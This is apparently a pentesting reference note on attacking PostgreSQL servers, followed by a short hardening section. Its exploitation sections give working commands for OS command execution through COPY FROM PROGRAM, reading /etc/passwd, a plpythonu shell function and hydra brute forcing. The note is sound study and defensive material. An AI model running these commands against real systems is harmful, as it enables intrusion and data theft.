

# 12 - PostgreSQL (Port 5432) Pentesting

## 1. Executive Summary

PostgreSQL is an object-relational database on **TCP 5432** (falls back to 5433 if busy). Attack surface: weak/default creds (`postgres`), arbitrary **file read/write via `COPY`**, **`COPY ... FROM PROGRAM`** for direct OS command execution (superuser / `pg_execute_server_program`), language-based RCE (plpython/plperl), and dumping app data. A superuser login is effectively host RCE.

## 2. Protocol Overview

Client/server over TCP. Roles carry attributes (`SUPERUSER`, `CREATEROLE`) and group memberships like `pg_read_server_files`, `pg_write_server_files`, `pg_execute_server_program` that gate file/command access without full superuser.

## 3. Enumeration

```bash
nmap -sV -p5432 <IP>
psql -h <IP> -U postgres        # try default/empty
nxc postgres <IP> -u postgres -p 'postgres'
```
Inside:
```sql
SELECT version(); SELECT current_user; SHOW data_directory;
\du            -- roles + attributes
SELECT rolname,rolsuper,rolcreaterole FROM pg_roles;
```

## 4. Exploitation

### 4.1 COPY FROM PROGRAM → RCE
Superuser (or `pg_execute_server_program`) runs OS commands:
```sql
DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(out text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

### 4.2 Arbitrary File Read / Write
```sql
-- read (pg_read_server_files / superuser)
CREATE TABLE f(t text); COPY f FROM '/etc/passwd'; SELECT * FROM f;
-- write a one-liner (COPY can't handle newlines → keep payload single-line)
COPY (SELECT 'data') TO '/var/www/html/x.txt';
```

### 4.3 Language RCE
If `plpythonu`/`plperlu` is installed:
```sql
CREATE OR REPLACE FUNCTION sh(cmd text) RETURNS text AS $$ import os; return os.popen(cmd).read() $$ LANGUAGE plpythonu;
SELECT sh('id');
```

### 4.4 Brute Force
```bash
hydra -L users.txt -P pass.txt postgres://<IP>
```

## 5. Mermaid Attack Flow


## 6. Post-Exploitation
- Read DB for app credentials, hashes, PII.
- `COPY FROM PROGRAM` runs as the `postgres` OS user → pivot to local privesc.

## 7. Defense & Hardening
1. Strong creds; restrict roles — no unnecessary `SUPERUSER`/program privileges.
2. `pg_hba.conf` least-privilege; bind to localhost; TLS.
3. Remove untrusted procedural languages (`plpythonu`).
4. Firewall 5432 to app tier; patch.

## 8. Chaining Opportunities
- Web SQLi (Postgres) → `COPY FROM PROGRAM` RCE. See **[[SQL Injection]]**.
- `postgres` OS shell → **[[08 - Linux Privilege Escalation]]**.

## 9. Related Notes
- [[10 - MSSQL (Port 1433) Pentesting]]
- [[11 - MySQL (Port 3306) Pentesting]]
- [[73 - Amazon Redshift (Port 5439) Pentesting]]

## 10. Tools
`psql`, `netexec postgres`, `nmap`, `sqlmap`, `hydra`, `metasploit` postgres modules.
